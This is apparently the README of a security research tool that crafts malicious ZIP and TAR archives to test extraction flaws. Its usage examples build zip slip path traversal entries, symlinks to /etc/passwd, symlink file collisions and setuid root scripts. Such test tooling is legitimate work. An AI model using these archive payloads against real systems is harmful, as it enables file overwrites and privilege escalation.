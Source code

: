 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities. 100% vibecoded, use at own disposal.

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

### Basic Usage

```bash
./archive-alchemist.py -f archive.zip -t zip <command> [options]
```

### Archive Type Detection

Archive Alchemist determines the archive type in two ways:

1. **Magic Bytes Detection**: For existing archives, the tool identifies the format by examining the file's content signature.

2. **Extension-based Detection**: For new archives or when magic bytes detection fails, the tool uses the file extension:
   - `.zip`: ZIP format
   - `.tar`: TAR format
   - `.tar.gz` or `.tgz`: Compressed TAR format

For files with unrecognized extensions and no valid magic bytes, ZIP format is used by default.

You can always override automatic detection by explicitly specifying the `-t` flag:

```bash
# Force TAR format regardless of extension or content:
./archive-alchemist.py -f archive.zip -t tar add file.txt --content "Using TAR format"
```

### Commands

#### Add Files

```bash
# Add a regular file
./archive-alchemist.py -f archive.zip add hello.js --content "console.log('hello')"

# Add a file with path traversal
./archive-alchemist.py -f archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"

# Add a symlink
./archive-alchemist.py -f archive.tar -t tar add hello.js --symlink "/tmp/xx.txt"

# Add with permission bits
./archive-alchemist.py -f archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755 --setuid
```

#### Replace Files

```bash
# Replace existing file content
./archive-alchemist.py -f archive.zip replace hello.js --content "console.log('replaced')"
```

#### Append to Files

```bash
# Append content to existing file
./archive-alchemist.py -f archive.zip append hello.js --content "\nconsole.log('appended')"
```

#### Modify Attributes

```bash
# Modify file attributes
./archive-alchemist.py -f archive.tar -t tar modify hello.js --mode 0755 --uid 0 --gid 0 --setuid
```

#### Remove Files

```bash
# Remove a file from an archive
./archive-alchemist.py -v -f archive.zip remove file.txt

# Remove a directory and all its contents
./archive-alchemist.py -v -f archive.tar -t tar remove directory/
```

#### List Archive Contents

```bash
# List files in an archive
./archive-alchemist.py -f archive.zip list

# Show detailed listing with file attributes
./archive-alchemist.py -f archive.tar -t tar list --long 1

# or the short form
./archive-alchemist.py -f archive.zip list -l 0
```

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

## Security Considerations

This tool is designed for security research and vulnerability testing. Using it against systems without explicit permission is illegal and unethical.